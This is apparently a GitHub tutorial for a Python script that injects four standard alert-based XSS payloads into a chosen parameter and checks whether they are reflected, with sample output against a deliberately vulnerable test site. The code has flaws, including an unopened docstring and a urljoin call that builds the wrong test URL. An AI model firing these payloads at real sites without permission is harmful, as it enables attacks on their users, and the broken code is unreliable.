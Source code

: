 # Python Script to Test Cross-Site Scripting (XSS) Vulnerabilities

This Python script allows you to test for Cross-Site Scripting (XSS) vulnerabilities in a web application by injecting potential XSS payloads into a specified parameter. If the web application is vulnerable, it will execute the script, allowing malicious content to be injected and executed in the browser.


# How to Use the Script
**Steps:**

    **Enter the Target Web Application URL:**
        You need to input the URL of the target web application that you want to test. This should be a web page that accepts user input and may be susceptible to XSS attacks.

    Example: I will use the http://testphp.vulnweb.com/search.php?test=query URL, which is an intentionally vulnerable web application for testing (Accunetix vulnerable web application).

    **Specify the Parameter Name:**
        In the web application, identify which parameter you want to test for XSS vulnerabilities. This could be a query parameter or a form input field.

    To find the parameter name:
        Right-click on the input field you want to test (such as a search box).
        Select "Inspect" (or "Inspect Element") to open the browser’s developer tools.
        Locate the name attribute of the input field. This is the parameter you will be testing.

    Example: For the search input box on the test application, the parameter name is **searchFor.**

![Image](https://github.com/user-attachments/assets/fff13fc7-c44e-410f-bb74-dd590334ff86)



# Script Overview

The script tests various XSS payloads by injecting them into the specified parameter in the URL and checking for any response that would suggest the payload has been executed (e.g., by returning the injected script in the response).

#Here is the code

# Import the request library: request module allows you to send HTTP requests
import requests
from urllib.parse import urljoin

# List of common XSS payloads
xss_payloads = [
    "<script>alert('XSS')</script>",
    **"<img src='x' onerror='alert(\"XSS\")'>",**
    "<svg/onload=alert('XSS')>",
    "<a href='javascript:alert(1)'>XSS</a>"
]

def test_xss(url, param=None, method='GET'):
 
    #Function to test for XSS vulnerability in a web application.
    
    Args:
    - url (str): The target URL of the web application.
    - param (str): Optional parameter to inject into (e.g., form field, URL parameter).
    - method (str): HTTP method (GET/POST).
    """
    # Test each payload
    for payload in xss_payloads:
        if method.upper() == 'GET':
            # Test by adding the payload in the URL (query parameters)
            test_url = urljoin(url, f"{param}={payload}")
            response = requests.get(test_url)
        elif method.upper() == 'POST':
            # Test by injecting the payload into a form field via POST request
            data = {param: payload}
            response = requests.post(url, data=data)
        else:
            print(f"Unsupported HTTP method: {method}")
            return

        # Check if the payload appears in the response (indicating XSS execution)
        if payload in response.text:
            print(f"[+] Potential XSS vulnerability found with payload: {payload}")
            print(f"    Response contains payload: {payload}")
            print(f"    Test URL: {response.url}")
        else:
            print(f"[-] No XSS vulnerability found with payload: {payload}")

# Example usage
if __name__ == "__main__":
    # Target web application URL
    target_url = input("Enter the URL of the web application to test: ").strip()

    # Specify the parameter name to inject into (e.g., 'username', 'search')
    param = input("Enter the parameter to inject into (e.g., 'username', 'search'): ").strip()

    # HTTP method to use for the test (GET or POST)
    method = input("Enter HTTP method (GET/POST): ").strip()

    # Run XSS test
    test_xss(target_url, param, method)


# Output:

(venv) aheaheeralaleralal@AHEERALALs-MacBook-Pro Python % /Users/aheaheeralaleralal/Desktop/Python/venv/bin/python /Users/aheaheeralaleralal/Desktop/Python/
xss.py
Enter the URL of the web application to test: http://testphp.vulnweb.com/search.php?test=query


Enter the parameter to inject into (e.g., 'username', 'search'): searchFor


Enter HTTP method (GET/POST):** POST**


[+] Potential XSS vulnerability found with payload: <script>alert('XSS')</script>

    Response contains payload: <script>alert('XSS')</script>
    
    Test URL: http://testphp.vulnweb.com/search.php?test=query

    
[+] Potential XSS vulnerability found with payload: <img src='x' onerror='alert("XSS")'>


    Response contains payload: <img src='x' onerror='alert("XSS")'>

    
    Test URL: http://testphp.vulnweb.com/search.php?test=query

    
[+] Potential XSS vulnerability found with payload: <svg/onload=alert('XSS')>


    Response contains payload: <svg/onload=alert('XSS')>

    
    Test URL: http://testphp.vulnweb.com/search.php?test=query

    
[+] Potential XSS vulnerability found with payload: <a href='javascript:alert(1)'>XSS</a>


    Response contains payload: <a href='javascript:alert(1)'>XSS</a>
    Test URL: http://testphp.vulnweb.com/search.php?test=query
